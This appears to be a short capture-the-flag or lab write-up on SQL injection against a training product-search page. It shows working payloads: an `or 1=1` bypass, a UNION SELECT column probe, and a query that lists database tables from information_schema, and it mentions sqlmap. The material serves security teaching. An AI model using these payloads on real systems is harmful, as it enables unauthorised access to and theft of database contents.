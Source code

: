 We have 2 ways to do this :D

Manually using the **UNION SELECT** query or using `sqlmap`

***

We are giving a product page with the search functionality

![](https://i.imgur.com/TD2Rqgp.png)



Using this query in the search bar - `senpai' or 1=1#` we got back all the lists of product

![](https://i.imgur.com/UdjhrTL.jpg)


we can then advance our query by using **UNION SELECT**, like we said in the past modules, keep adding `null` till something clicks, this time we needed 4 nulls

```
senpai' union select null,null,null,null#
```


![](https://i.imgur.com/e2H7jSI.png)



We can then attempt to get all tables from this database by using the query as shown below

```
senpai' union select null,null,null,table_name from information_schema.tables#
```


![](https://i.imgur.com/GOQJ3Er.png)


Searching for **injection0x03** gives us this

![](https://i.imgur.com/mxIbLRO.png)





